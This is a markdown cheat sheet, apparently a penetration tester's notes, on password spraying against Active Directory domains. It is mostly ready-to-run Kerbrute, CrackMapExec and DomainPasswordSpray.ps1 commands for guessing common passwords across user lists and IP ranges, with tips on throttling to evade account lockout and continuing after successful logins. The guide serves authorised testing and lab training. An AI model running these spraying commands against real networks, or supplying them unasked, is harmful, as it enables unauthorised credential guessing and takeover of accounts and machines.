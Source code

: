 # Password Spraying

## Password Spraying from Linux

#### Using Kerbrute

* `dollarboysushil@kali[dbs]$ kerbrute passwordspray -d marvel.local --dc 192.168.1.1 users_list.txt P@ssw0rd`

#### Using Crackmapexec

* `dollarboysushil@kali[dbs]$ sudo crackmapexec smb 192.168.1.1 -u users_list.txt -p --continue-on-success`

#### Local Admin Spraying with CrackMapExec

Local admin spraying is a technique used to check if a given set of credentials has local administrator access on multiple machines in a network.

1. **CrackMapExec Local Admin Check**
   *   **Command:**

       ```bash
       crackmapexec smb {IP-Range} -u {Username} -p {Password} --local-auth
       ```
   * **Description:** Checks if the provided username and password have local administrator privileges on the specified IP range. The `--local-auth` flag specifies that the provided credentials are local accounts on each target machine.
2. **Using a List of Credentials**
   *   **Command:**

       ```bash
       crackmapexec smb {IP-Range} -u {Usernames-File} -p {Passwords-File} --local-auth
       ```
   * **Description:** Uses a file containing multiple usernames and passwords to spray against the specified IP range, checking for local administrator access.
3. **Password Spraying with Known Username**
   *   **Command:**

       ```bash
       crackmapexec smb {IP-Range} -u {Username} -p {Password-List} --local-auth
       ```
   * **Description:** Performs password spraying using a known username and a list of passwords against the IP range to check if any of them provide local administrator access.
4. **Specifying a Domain**
   *   **Command:**

       ```bash
       crackmapexec smb {IP-Range} -d {Domain-Name} -u {Username} -p {Password} --local-auth
       ```
   * **Description:** Checks for local admin access on machines within a specified domain using the provided credentials.
5. **Additional Options**
   * **`--continue-on-success`**: Continue spraying even if successful credentials are found.
   * **`--threads {Number}`**: Specify the number of threads for concurrent connections.

#### Example Commands

*   **Basic Local Admin Check:**

    ```bash
    crackmapexec smb 192.168.1.0/24 -u admin -p Password123 --local-auth
    ```

## Local Admin Spraying from Windows

Local admin spraying can also be performed on a Windows machine using PowerShell scripts such as [`DomainPasswordSpray.ps1`](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1). This script allows for password spraying across multiple machines within a domain to check for valid credentials.

1. **Using `DomainPasswordSpray.ps1`**
   *   **Step 1:** Import the PowerShell module.

       ```powershell
       PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
       ```
   *   **Step 2:** Invoke the password spraying command.

       ```powershell
       PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
       ```
   * **Description:** This command sprays the password "Welcome1" across the domain, logging any successful login attempts to the `spray_success` file. The `-ErrorAction SilentlyContinue` flag suppresses errors to keep the output clean.
2. **Specifying Additional Parameters**
   * **`-UserList {Path}`:** Use a file containing a list of usernames to spray against.
   * **`-Domain {Domain}`:** Specify the domain name if different from the default context.
   * **`-Throttle {Milliseconds}`:** Add a delay between attempts to avoid account lockout policies.
   *   **Example Command:**

       ```powershell
       PS C:\htb> Invoke-DomainPasswordSpray -UserList C:\users.txt -Password Welcome1 -Domain MYDOMAIN -OutFile spray_success -Throttle 500 -ErrorAction SilentlyContinue
       ```

#### Example Commands

*   **Basic Password Spray:**

    ```powershell
    PS C:\htb> Invoke-DomainPasswordSpray -Password Password123 -OutFile success_log.txt -ErrorAction SilentlyContinue
    ```
